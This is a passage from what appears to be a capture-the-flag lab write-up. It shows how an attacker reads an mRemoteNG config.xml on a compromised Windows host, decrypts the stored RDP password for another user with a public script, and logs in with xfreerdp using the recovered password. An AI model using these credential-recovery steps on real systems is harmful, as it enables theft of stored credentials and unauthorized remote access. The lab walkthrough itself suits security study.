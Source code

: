```
PS C:\Users\ellen.freeman\Documents> cat config.xml
cat config.xml
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="sDkrKn0JrG4oAL4GW8BctmMNAJfcdu/ahPSQn3W5DPC3vPRiNwfo7OH11trVPbhwpy+1FnqfcPQZ3olLRy+DhDFp" ConfVersion="2.6">
<Node Name="RDP/Gale" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General"
......
```

You'll see that this is an XML file containing the password information for the user `Gale.Dekarios`. This was the other user within `C:\Users` aside from `ellen.freeman`.

The file itself seems to be related to `mRemoteNG` and also having an affiliation with RDP. Assuming that we are able to crack the hash within this XML, we could login as this user.

# Decrypting mRemoteNG Hashes

I did a bit of research into mRemoteNG, and it seems to be an application that function relatively similarly to RDP. Our application at hand is a fork of mRemote, which is an open-source remote connection manager for Windows. This specific application supports protocols such as RDP, VNC, SSH, and may more. You can find documentation related to mRemoteNG [here](https://mremoteng.readthedocs.io/en/v1.77.3-dev/).

I also found a repository that contains a decryption script for mRemoteNG specifically. You can find that [here](https://github.com/gquere/mRemoteNG_password_decrypt). Note that if it now prompting you to enter credentials when you clone the repository, that is due to the fact that a `.gitconfig` file was created in your home directory when we were exploiting Gitea earlier. You can delete this `.gitconfig` file to prevent it for prompting you for credentials.

The script itself seems to be utilizing AES and PBKDF2_HMAC_SHA1 decryption in order to retrieve the plaintext password. The script uses the salt specified in `config.xml` and Base64 decoding in order to decrypt the password.

Let's download this config file containing the credentials to our machine and run the script against it.

```
└─$ python3 mRemoteNG_password_decrypt/mremoteng_decrypt.py config.xml  
Name: RDP/Gale
Hostname: Lock
Username: Gale.Dekarios
Password: [...snip...]
```

It seems as though the password was decrypted successfully! We should be able to log in as `Gale.Dekarios` through RDP, given that mRemoteNG supports RDP as a protocol.

```
└─$ xfreerdp /v:10.10.66.232 /u:Gale.Dekarios /p:ty8wnW9qCKDosXo6
```

![](/images/vulnlab/lock-vl/h.png)
